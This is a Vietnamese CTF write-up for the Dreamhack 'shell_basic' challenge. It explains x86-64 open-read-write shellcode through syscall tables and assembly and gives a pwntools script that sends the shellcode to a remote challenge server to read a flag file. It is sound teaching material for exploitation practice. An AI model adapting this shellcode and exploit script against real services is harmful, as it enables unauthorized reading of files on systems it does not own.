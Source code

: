 ![shell_basic dreamhack](image.png)

# 0x0 Tổng quan 
- Files được cho: `shell_basic`, `shell_basic.c`
- Không như các bài toán khác, đối với bài này, chúng ta cần phải viết shellcode để đọc flag tại `/home/shell_basic/flag_name_is_loooooong`

# 0x1 Shellcode? 
Shellcode là đoạn mã assembly, được chèn vào payload để thực hiện các mục đích khác nhau như lấy shell, đọc nội dung file, ... Với bài toán ở trên, mục đích chính của shellcode là đọc nội dung của file. Với loại shellcode này, mình sẽ gọi tắt là **orw shellcode (open-read-write shellcode)**.

Để viết được **orw shellcode**, chúng ta cần sử dụng các `syscall` của hệ thống. Dưới đây là các nội dung của các `syscall` cần thiết. 

| syscall   | rax       | arg0(rdi)     | arg1 (rsi)    | arg2 (rdx)    | 
| --------- | ------    |-----------    | -----------   | -----------   | 
| read      | 0x00      |unsigned int fd| char *buf     |size_t count   |
| write     | 0x01      |unsigned int fd|const char *buf|size_t count   |
| open      | 0x02      |const char *filename|int flags |umode_t mode    |

Chúng ta cùng đi phân tích cụ thể từng syscall để xem syscall đó yêu cầu những gì, nó thực hiện công việc gì. 

## 1. int fd = open("/tmp/flag", O_RDONLY, NULL)

Giả sử, đường dẫn của file cần đọc là `tmp/flag`. 3 tham số của syscall này là:
- arg0: `/tmp/flag`. Chúng ta cần đưa chuỗi này vào stack. Để làm được điều đó, ta sẽ convert chuỗi này qua mã hex rồi push vào stack. Do stack là cấu trúc (LIFO) và chỉ nhận 8 byte một lần push. Vì vậy ta sẽ tách **"/tmp/flag" = "/tmp/fla" + "g"**
    - "/tmp/fla" = 0x616c662f706d742f
    - "g" = 0x67
- arg1: File access mode 
    - O_RDONLY (Open read-only) -> flag = 0  
    - O_WRONLY (Open write-only) -> flag = 1
    - O_RDWR (Open read/write) -> flag = 2
- arg2: Khi đọc file, chúng ta không sử dụng tham số này. Vậy `arg2 = 0`
- rax: Để gọi syscall open, `rax = 0x02`

Cuối cùng, ta sẽ viết đoạn mã assembly để thực hiện các công việc ở trên 
```asm
push 0x67                       ; "g"
mov rax, 0x616c662f706d742f     ; "/tmp/fla"
push rax            
mov rdi, rsp                    ; rdi = "/tmp/flag"
xor rsi, rsi                    ; rsi = 0 ; O_RDONLY
xor rdx, rdx                    ; rdx = 0
mov rax, 0x02                   ; rax = 2 ; syscall_open
syscall                         ; open("/tmp/flag", O_RDONLY, NULL)
```

## 2. read(fd, buf, 0x30) 

Giả sử, chúng ta muốn đọc 0x30 bytes từ tệp dữ liệu. 3 tham số của syscall này đó là: 
- arg0: `fd`. Khi mở xong file, giá trị của `fd` được lưu trong thanh ghi `rax`. Vì vậy `rdi` = `rax`.
- arg1: `rsi` sẽ trỏ tới địa chỉ, nơi dữ liệu được đọc từ file lưu trữ. Do chúng ta sẽ đọc 0x30 bytes, `rsi = rsp - 0x30`.
- arg2: `rdx` sẽ bằng 0x30, số bytes dữ liệu được đọc từ tệp. 
- rax: Để gọi syscall này, `rax` = 0x00

Đoạn mã assembly thực hiện các công việc trên là
```asm
mov rdi, rax    ; rdi = fd
mov rsi, rsp    ;  
sub rsi, 0x30   ; rsi = rsp - 0x30 ; buf 
mov rdx, 0x30   ; rdx = 0x30
xor rax, rax    ; rax = 0
syscall         ; read(fd, buf, 0x30)
```

## 3. write(1, buf, 0x30)

Khi gọi syscall write, `rsi` và `rdx` không thay đổi.
- arg0: `fd`. Do đầu ra sẽ ở dạng xuất chuẩn, `rdi` = 0x1
- arg1: giữ nguyên như syscall read
- arg2: giữ nguyên như syscall read
- rax: Để gọi syscall, `rax` = 0x01 

Đoạn mã assembly thực hiên các công việc trên là
```asm
mov rdi, 0x01   ; rdi = 1 ; fd = stdout
mov rax, 0x01   ; rax = 1 ; syscall_write
syscall         ; write(fd, buf, 0x30)
```

# 0x2 Framework Pwntools
![Alt text](image-1.png)

Để thực hiện nhanh chóng các ý tưởng của chúng ta ở trên, framework pwntools có `shellcraft` để làm điều đó. 

```python
shellcode =  shellcraft.open('/tmp/flag')
shellcode += shellcraft.read('rax', 'rsp', 0x30)
shellcode += shellcraft.write(0x01, 'rsp', 0x30)
```

# 0x3 Shell_Basic

Với toàn bộ kiến thức ở trên, chúng ta có thể dễ dàng giải quyết bài toán này bằng 2 cách viết shellcode 

```python
#!/usr/bin/env python3

from pwn import *

HOST = 'host3.dreamhack.games'
PORT = 20634
context.arch = 'amd64'
context.binary = elf = ELF('./shell_basic', checksec = False)
# p = process(elf.path)
p = remote(HOST, PORT)

path = '/home/shell_basic/flag_name_is_loooooong' 

shellcode1 = asm(
'''
push 0
mov rax, 0x676e6f6f6f6f6f6f
push rax
mov rax, 0x6c5f73695f656d61
push rax
mov rax, 0x6e5f67616c662f63
push rax
mov rax, 0x697361625f6c6c65
push rax   
mov rax, 0x68732f656d6f682f
push rax    
mov rdi, rsp
xor rsi, rsi 
xor rdx, rdx 
mov rax, 2
syscall 
mov rdi, rax 
mov rsi, rsp
sub rsi, 0x30
mov rdx, 0x30
mov rax, 0
syscall 
mov rdi, 1
mov rax, 1 
syscall 
''')

shellcode2 = shellcraft.open(path)
shellcode2 += shellcraft.read('rax', 'rsp', 0x30)
shellcode2 += shellcraft.write(0x01, 'rsp', 0x30) 

p.sendline(asm(shellcode2))

p.interactive()
```